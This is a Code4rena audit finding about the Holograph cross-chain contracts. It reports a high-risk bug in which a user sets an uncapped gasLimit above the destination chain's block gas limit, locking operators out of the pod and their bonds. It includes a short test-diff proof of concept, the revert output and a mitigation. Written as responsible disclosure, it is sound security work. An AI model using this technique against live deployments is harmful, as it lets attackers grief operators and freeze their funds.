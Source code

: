 ## Tags

- bug
- duplicate
- 3 (High Risk)
- sponsor confirmed
- selected for report
- responded

# [An attacker can lock operator out of the pod by setting gas limit that's higher than the block gas limit of dest chain](https://github.com/code-423n4/2022-10-holograph-findings/issues/414) 

# Lines of code

https://github.com/code-423n4/2022-10-holograph/blob/f8c2eae866280a1acfdc8a8352401ed031be1373/contracts/HolographOperator.sol#L415


# Vulnerability details


When a beaming job is executed, there's a requirement that the gas left would be at least as the `gasLimit` set by the user.
Given that there's no limit on the `gasLimit` the user can set, a user can set the `gasLimit` to amount that's higher than the block gas limit on the dest chain, causing the operator to fail to execute the job.

## Impact
Operators would be locked out of the pod, unable to execute any more jobs and not being able to get back the bond they paid.

The attacker would have to pay a value equivalent to the gas fee if that amount was realistic (i.e. `gasPrice` * `gasLimit` in dest chain native token), but this can be a relative low amount for Polygon and Avalanche chain (for Polygon that's 20M gas limit and 200 Gwei gas = 4 Matic, for Avalanche the block gas limit seems to be 8M and the price ~30 nAVAX = 0.24 AVAX ). Plus, the operator isn't going to receive that amount.

## Proof of Concept
The following test demonstrates this scenario:

```diff
diff --git a/test/06_cross-chain_minting_tests_l1_l2.ts b/test/06_cross-chain_minting_tests_l1_l2.ts
index 1f2b959..a1a23b7 100644
--- a/test/06_cross-chain_minting_tests_l1_l2.ts
+++ b/test/06_cross-chain_minting_tests_l1_l2.ts
@@ -276,6 +276,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             gasLimit: TESTGASLIMIT,
           })
         );
+        estimatedGas = BigNumber.from(50_000_000);
         // process.stdout.write('\n' + 'gas estimation: ' + estimatedGas.toNumber() + '\n');
 
         let payload: BytesLike = await l1.bridge.callStatic.getBridgeOutRequestPayload(
@@ -303,7 +304,8 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             '0x' + remove0x((await l1.operator.getMessagingModule()).toLowerCase()).repeat(2),
             payload
           );
-
+        estimatedGas = BigNumber.from(5_000_000);
+        
         process.stdout.write(' '.repeat(10) + 'expected lz gas to be ' + executeJobGas(payload, true).toString());
         await expect(
           adminCall(l2.mockLZEndpoint.connect(l2.lzEndpoint), l2.lzModule, 'lzReceive', [
@@ -313,7 +315,7 @@ describe('Testing cross-chain minting (L1 & L2)', async function () {
             payload,
             {
               gasPrice: GASPRICE,
-              gasLimit: executeJobGas(payload),
+              gasLimit: 5_000_000,
             },
           ])
         )
```

The test would fail with the following output:

```
  1) Testing cross-chain minting (L1 & L2)
       Deploy cross-chain contracts via bridge deploy
         hToken
           deploy l1 equivalent on l2:
     VM Exception while processing transaction: revert HOLOGRAPH: not enough gas left
```

## Recommended Mitigation Steps
Limit the `gasLimit` to the maximum realistic amount that can be used on the dest chain (including the gas used up to the point where it's checked).